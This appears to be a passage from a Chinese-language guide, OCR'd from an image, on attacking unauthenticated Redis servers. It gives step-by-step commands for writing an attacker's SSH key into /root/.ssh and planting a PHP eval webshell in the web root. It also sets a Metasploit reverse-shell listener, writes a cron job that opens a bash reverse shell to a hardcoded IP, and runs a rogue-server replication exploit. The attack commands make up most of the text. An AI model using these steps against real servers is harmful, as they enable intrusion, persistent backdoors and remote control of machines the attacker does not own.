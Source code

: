 服务器存在.ssh目录且具有写入的权限

原理：

在数据库中插入一条数据，将本机的公钥作为value，key值随意，然后通过修改数据库的默认路径为/root/.ssh和默认的缓冲文件authorized.keys，把缓冲的数据保存在文件里，这样就可以在服务器端的/root/.ssh下生成一个授权的key。

**2.写入webshell**

条件：

已知web绝对路径。

步骤：

1\. redis -cli -h 192.168.x.x 连接目标服务器

2\. config set dir "/var/www/html" 设置保存文件路径

3\. config set dbfilename shell.php 设置保存文件名

4\. set x "\n\n<?php @eval($_POST['cmd']); ?>\n" 将webshell写入x键值中

5\. save 保存

局限：

1.服务器处于内网，写入webshell后我们的公网IP无法连接

2.服务器IP地址不固定

3.6379端口不允许入方向

4.上传webshell可能直接被杀毒软件删除

**3.反弹连接shell**

设置监听端口，常用的工具1.msf 2.netcat 3.socat利用msf设置监听步骤：1. use exploit/multi/handler2.
set payload generic/shell_reverse_tcp3. set lhost 192.168.x.x 默认监听端口为44444.
run

**4.定时任务反弹shell**

步骤：定时任务用的表达式 ：Cron表达式是一个字符串，该字符串由6个空格分为7个域，每一个域代表一个时间含义。分 时 天 月 周 user-
name(用户) command(命令) 比如每过一分钟向root用户的定时任务中写入反弹连接命令(1) config set dir
/var/spool/cron/ //目录切换到定时任务的文件夹中(2) config set dbfilename root
//设置保存文件名(3)set x "\n * * * * * bash -i >& /dev/tcp/192.168.96.222/7777
0>&1\n" //将反弹shell写入x键值中(4)save //保存

利用定时任务反弹shell在目标系统是Centos上可用，Ubuntu上有限制

理由如下：

1.默认redis写文件后是644的权限，但ubuntu要求执行定时任务件/var/spool/cron/crontabs/权限必须是600也就是-rw
-------
才会执行，否则会报错，而Centos的定时任务文件权限644也能执行2.redis保存RDB会存在乱码，在Ubuntu上会报错，而在Centos上不会报错3.两个系统的定时任务文件目录不同

利用主从复制getshell

条件：版本(4.x~5.0.5)原理：数据读写体量很大时，为了减轻服务器的压力，redis提供了主从模式，主从模式就是指定一个redis实例作为主机，其余的作为从机，其中主机和从机的数据是相同的，而从机只负责读，主机只负责写。通过读写分离可以减轻服务器端的压力。利用工具：RedisRogueServer地址：https://github.com/n0b0dyCN/redis-
rogue-server使用工具的命令：python3 redis-rogue-server.py --rhost=x.x.x.x
--lhost=x.x.x.x
--exp=exp.so两种使用方法：交互式反弹式限制：利用这个方法getshell或者rce任意导致redis服务瘫痪，一般不建议使用
